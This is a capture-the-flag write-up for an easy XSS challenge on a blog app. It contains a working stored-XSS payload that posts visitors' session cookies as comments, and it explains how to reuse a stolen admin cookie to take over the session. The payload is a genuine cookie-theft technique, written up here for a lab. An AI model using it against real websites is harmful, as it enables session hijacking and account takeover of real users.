 # XSS - Easy

Writeup by: [j4asper](https://github.com/j4asper)

---

## Challenge Description

We've built a new blog app!

Can you get the flag from the admin user? He's logged on right now

## Challenge Solution

I don't have access to the instance anymore since the CTF has been paused, but i will try to explain the steps.

After looking around we see a comment box that supports markdown, which we can exploit. We need to get the admins cookie to get the admins session. I made the following script:

```js
<script>
fetch('http://blog.com:5000/new-comment', {
    method: 'POST',
    headers:{
      'Cookie': document.cookie,
      'Content-Type': 'application/x-www-form-urlencoded'
    },    
    body: new URLSearchParams({
        'name': 'cookie grab',
        'comment': document.cookie
    })
})
</script>
```

You need to make a comment that has this script in it, the script will automatically load whenever someone loads the page with the comments. The script will make a post request simulating that the person has made a comment and then make the comment text have their cookie, there will be a lot of cookies, so you might have to try some different ones, for me the second comment cookie worked, and when pressing the `admin` button on the top left side of the page, you are greeted with the flag.
